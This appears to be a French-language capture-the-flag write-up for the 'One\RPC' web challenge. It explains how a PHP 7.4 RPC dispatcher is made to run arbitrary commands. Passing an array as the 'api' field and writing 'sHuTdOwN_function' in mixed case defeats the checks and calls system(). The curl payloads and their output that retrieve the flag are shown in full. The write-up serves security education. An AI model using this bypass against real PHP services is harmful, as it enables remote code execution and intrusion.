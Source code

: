 > Name: One\\RPC
> 
> Category:  Web
> 
> Difficulty: Medium/Hard
> 
> Description: 
> *One\RPC seems to be a new promising open source project. But can it be simple, powerful and secure at the same time ?*
> 
> *Review the source code of this project and help the community by finding a critical vulnerability.*

![Pasted image 20230730132345](https://github.com/pun-private/writeup-barbhack2023-web/assets/27222105/972e4ff5-79dd-486c-9ae6-5af16d103787)

**One\RPC** est un projet Open Source visant à simplifier et accélérer le développement des API. L'idée est qu'il y ait un unique endpoint POST où l'on envoie un seul JSON contenant trois champs :

```
{
    "api": "le nom du namespace de l'API",
    "func": "le nom de la méthode à appeler dans ce namespace",
    "args": [
	    "parametre 1",
	    "parametre 2",
	    "..."
    ]
}
```

Un exemple d'appel à cette api est :

```
$> curl -X POST 'http://challs:40006/demo-rpc/' --data-raw 
'{ "api" : "Greeting", "func": "welcome", "args": [ "Chuck" ] }'
```

Est-ce qu'il serait possible d'exécuter du code arbitraire ?

Tout d'abord, il est important de noter que la demo tourne en `PHP 7.4`  !

Le code source du projet demo à la structure suivante :
```
|__ API/    <- Les fichiers API à charger
|
|__ Public/ <- Dossier à exposer sur le webserveur
|	|__ index.php
|
|__ deps_loader.php <- chargeur automatique des fichiers de l'API
|__ dispatcher.php  <- le "routeur" de OneRPC

```

L'essentiel du projet se passe dans la fonction `call_api` du fichier `dispatcher.php` :

```php
function check_forbidden_func($func_name) {
    if (array_search($func_name, get_defined_functions()["internal"]) !== false) {
        throw new Exception("Forbidden function name.");
    }
}

function call_api($json) {

    if (empty($json->api) || preg_match('/^[\\\\]|[^a-zA-Z0-9\\\\]/', $json->api) === 1) {
        throw new Exception("Invalid 'api' endpoint.");
    }
    $json->api = rtrim($json->api, '\\');

    $json->func = "register_{$json->func}";
    check_forbidden_func($json->func);

    $api_func = "{$json->api}\\{$json->func}";
    if (function_exists($api_func) === false) {
        throw new Exception("Unknown function $api_func");
    }

    return $api_func(...(empty($json->args) ? [] : $json->args));
}
```

`$api_func` est une concaténation du namespace `$json->api` et de la fonction `register_${json->func}` ce qui donne par exemple : `Greeting\register_welcome`.

On va dans un premier temps essayer d'enlever la partie namespace :

```php
if (empty($json->api) || preg_match('/^[\\\\]|[^a-zA-Z0-9\\\\]/', $json->api) === 1) {
	throw new Exception("Invalid 'api' endpoint.");
}
$json->api = rtrim($json->api, '\\');
```

Dans ce code il y a trois problèmes :
1. "$json->api" n'est pas vérifié en tant que string
2. preg_match en PHP 7.4 émet un warning quand le deuxieme paramètre n'est pas une string et retourne false
3. rtrim en PHP 7.4 retourne NULL quand les types de paramètre ne sont pas du bon type

Cet extrait de JSON bypass cette partie et permet d'avoir NULL dans `$api_json` :

```
"api": [ "foo" ]
```

Pour pouvoir appeler une fonction native de PHP, il faut désormais contourner cette partie :

```php
$json->func = "register_{$json->func}";
check_forbidden_func($json->func);
```

Il faut trouver une fonction php native qui commence par `register_`. Pour cela, il suffit d'aller sur la documentation PHP et d'en trouver :

![Pasted image 20230730135444](https://github.com/pun-private/writeup-barbhack2023-web/assets/27222105/a8b1838a-7312-4d36-ae87-a4fb55439a67)

https://www.php.net/manual/en/function.register-shutdown-function => permet d'appeler une fonction à la fin d'exécution du script

Le problème c'est que le nom de cette fonction est détectée dans la vérification "check_forbidden_func" qui récupère le nom de toutes les fonctions internes PHP et le compare avec notre fonction... Sauf qu'en PHP, les noms des fonctions ne sont pas sensibles à la casse (contrairement aux nom de variable) =)

Donc nouveau bypass avec :

```
{
	"api": [ "foo" ],
	"func": "sHuTdOwN_function"
}
```

Maintenant il ne reste plus qu'à utiliser les bons paramètres :

```
{
	"api": [ "foo" ],
	"func": "sHuTdOwN_function",
	"args": ["system", "<command>"]
}
```


Flag :

```
$> curl -X POST 'http://challs:40006/demo-rpc/' --data-raw 
'{ "api" : [ "foo" ], "func": "sHuTdOwN_function", "args": ["system", "ls"] }'

{
    "result": null
}
0>___FLAG___<0
demo-rpc
front
html

$> curl -X POST 'http://challs:40006/demo-rpc/' --data-raw 
'{ "api" : [ "foo" ], "func": "sHuTdOwN_function", "args": ["system", "cat 0*/*"] }'

{
    "result": null
}
ALG{N4M3594C3_42817242Y_C0D3_3X3CU710N_4FUN}                                           
```
